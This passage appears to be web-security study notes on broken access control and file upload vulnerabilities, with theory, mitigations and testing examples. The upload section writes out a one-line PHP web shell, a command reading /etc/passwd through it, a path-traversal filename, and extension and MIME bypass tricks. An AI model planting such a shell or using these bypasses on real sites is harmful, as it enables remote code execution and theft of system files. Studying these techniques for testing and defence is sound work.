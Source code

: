 Improper enforcement of user roles and permissions.

#### 🧠 Theory Recap

- Types:    
    - Vertical: normal → admin
    - Horizontal: user A accesses user B’s data
    - Insecure direct object references (IDOR)
- Mitigation:
    - Server-side checks
    - Don’t trust client input for access level
    - Use access control middleware consistently

#### 🧪 Examples

- Change `user_id=123` to another    
- Modify role in JSON body: `"role":"admin"`
- Predictable admin panel: `/admin` or `/superuser`

#### 🔧 Tools

- Burp Repeater/Intruder    
- Use session cookies of lower user to test privilege boundaries

---

### 8. File Upload Vulnerabilities

#### ❓ What is it?

Allows attackers to upload dangerous files, such as web shells, due to poor validation.

#### 🧠 Theory Recap

- Checkpoints to bypass:
    - Content-Type (MIME)        
    - Extension filters
    - File name/path validation
- Impacts: RCE, DoS (large file), overwrite existing files

#### 🧪 Shells from Notes

- Basic RCE Shell:
    ```php
    <?php system($_GET['cmd']); ?>
    ```
    
- Access: `shell.php?cmd=cat /etc/passwd` 
- Directory traversal via filename: `filename="../shell.php"`
- Extension bypass:
    - `.php3` 
    - `.php.jpg`
    - `shell.p.phphp`
    - `shell.php%00.jpg`
- MIME spoof:
    - Set `Content-Type: image/jpeg` and upload PHP file
